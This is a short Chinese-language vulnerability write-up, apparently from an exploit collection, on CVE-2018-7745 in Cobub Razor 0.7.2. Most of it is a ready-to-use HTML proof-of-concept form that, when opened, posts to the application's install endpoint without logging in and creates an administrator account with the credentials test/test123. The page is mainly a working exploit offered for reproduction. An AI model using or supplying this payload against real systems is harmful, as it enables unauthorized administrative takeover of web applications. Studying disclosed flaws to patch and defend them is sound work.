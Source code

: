 ```yaml
---
title: "（CVE-2018-7745）Cobub Razor 0.7.2 越权增加管理员账户"
id: zhfly2848
---
```


# （CVE-2018-7745）Cobub Razor 0.7.2 越权增加管理员账户

## 一、漏洞简介

Cobub Razor 0.7.2越权增加管理员账户漏洞，在不登录的情况下发送特定数据包，可新增管理员账号。保存如下利用代码为html页面，打开页面将增加test/test123的管理员账号，漏洞发现者已经将漏洞信息通过[issues](https://github.com/cobub/razor/issues/161)告知作者。

## 二、漏洞影响

Cobub Razor 0.7.2

## 三、复现过程

### POC

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://www.0-sec.org/index.php?/install/installation/createuserinfo" method="POST">
      <input type="hidden" name="siteurl" value="http://127.0.0.1/" />
      <input type="hidden" name="superuser" value="test" />
      <input type="hidden" name="pwd" value="test123" />
      <input type="hidden" name="verifypassword" value="test123" />
      <input type="hidden" name="email" value="12@qq.com" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html> 
```